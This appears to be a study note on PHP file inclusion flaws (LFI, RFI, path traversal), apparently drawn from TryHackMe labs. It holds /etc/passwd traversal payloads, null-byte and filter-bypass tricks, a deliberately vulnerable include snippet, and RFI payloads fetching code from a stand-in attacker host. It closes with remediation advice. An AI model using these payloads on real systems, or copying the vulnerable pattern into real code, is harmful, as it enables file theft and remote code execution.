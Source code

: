 # File Inclusion
|-> **Local File Inclusion (LFI)** <br>
|-> **Remote File Inclusion (RFI)** <br>
|-> **Directory Traversal**

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/03a1db1f-9669-4348-9c2b-e9b3056ad3fb" alt="Anatomy of a Get Request to Access a File">
</p>
<p align="center">
  <em>Fig: Anatomy of a Get Request to Access a File</em>
</p>

<p align="center">
  <img src="https://github.com/PranjalBasak/Documentation/assets/66166653/14628d7f-7f11-463f-bb40-ee6bf8154c35" alt="How A Request Works">
</p>
<p align="center">
  <em>Fig: How A Request Works</em>
</p>

**Cause:** 
<br> The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them.
<br>
**Risk:** 
<br> An attacker can access any file in the web server or the operating system including source code using the vulnerablity. 
<br> They can even perform RCE by uploading their own files to the server.

## Path Traversal
AKA _**Directory Traversal/Dot-Dot-Slash Attack**_ <br>
This attack allows a hacker unauthorized access to operating system filee outside the web application's root directory.

In PHP, you can use the [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php) to read the content of a file.

**Example:** `http://webapp.thm/get.php?file=../../../../etc/passwd`

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/eab139b1-d196-46eb-87f7-952d3f212e60)

## Local File Inclusion (LFI)
LFI is a vulnerability which allows attackers to retrive local files hosted in a web server and even execute malicious codes.

LFI can occur in web applications written in PHP, ASP, JSP, or even Node.js. In PHP, some functions contribute to the vulnerability of web applications including `include`, `require`, `include_once`, and `require_once`.

### Case 1: 
Let's say we have an web app which can switch between English and Arabian language. The PHP code is written as follows:
```php
<?PHP 
	include($_GET["lang"]);
?>
```

THE PHP code uses a GET request via the URL parameter `lang` to include the file of the page. We should have two kinds of requests:
- `http://webapp.thm/index.php?lang=EN.php`
- `http://webapp.thm/index.php?lang=AR.php`
But a malicious actor can read any file from the server using the vulnerable parameter `lang`, if there is no input validation and no directory specified in the `include` function. So an attacker can do:
`http://webapp.thm/get.php?file=/etc/passwd`

### Case 2: Bypass Invalid Extension
Use Null Bytes if the PHP code is configured in such a way that it will only accept a certain extension (such as only .php). In this case, a sample payload would be:
`http://webapp.thm/index.php?lang=../../../../etc/passwd%00`
Null byte will tell the PHP code to ignore anything after the null byte including the extension.

**NOTE:** the %00 trick is fixed and not working with PHP 5.3.4 and above.

## Case 3: Bypass A Filtered Keyword (`/etc/passwd`)
**Technique 1:** Use Null Bytes `%00`

**Technique 2:** Use `/.` in front of filtered keyword

## Case 4: Bypass A Filtered Keyword (Replaced `../` with Empty String)
![image](https://github.com/PranjalBasak/Documentation/assets/66166653/3f5b7720-b831-4e08-99b7-fe58342cc5f5)

## Case 5: Directory Specified
Considering the directory `languages` is specified,
Payload: `?lang=languages/../../../../../etc/passwd.`

## Remote File Inclusion (RFI)
RFI is an attack which allows an attacker to include remote files to the web application and execute malicious scripts in the server.

In RFI, one can inject an external URL into `include` function. But one requirement is that `allow_url_fopen` option needs to be `on`. RFI is deadlier than LFI since it allows RCE on the server. Other consequences include:
- Sensitive Information Disclosure
- Cross-Site Scripting (XSS)
- Denial of Service (DoS)

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/9ed4aa3d-d153-403e-8f01-abc62626637e)
 Example Payload: 
 - `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
 -  `http://10.10.233.114/playground.php?file=http://10.17.42.103:4444/46635.py`

**Running A Simple HTTP Server Using Python3:** `python3 -m http.server 9000`

### Remeediation

- Keep system and services, including web application frameworks, updated with the latest version.
- Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
- A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
- Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`.
- Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
- Never trust user input, and make sure to implement proper input validation against file inclusion.
- Implement whitelisting for file names and locations as well as blacklisting.
